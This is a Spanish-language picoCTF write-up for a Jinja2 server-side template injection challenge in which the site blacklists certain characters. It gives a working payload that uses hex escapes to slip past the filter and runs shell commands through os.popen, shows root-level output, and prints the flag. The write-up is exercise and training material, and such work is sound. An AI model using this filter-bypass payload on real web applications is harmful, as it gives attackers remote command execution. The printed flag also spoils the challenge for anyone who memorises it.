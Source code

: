 ### Descripción
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:55567/)!

Hints:
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

### Solución
Entramos a la página.
En https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ encontramos el siguiente script: 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Al introducirlo en la página nos muestra: 
```
uid=0(root) gid=0(root) groups=0(root)
```

Cambiamos el script en el id para poner cat flag:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

Lo introducimos denuevo y nos muestra la bandera:
```
picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}
```

Flag:
picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}
### Notas adicionales

### Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ 
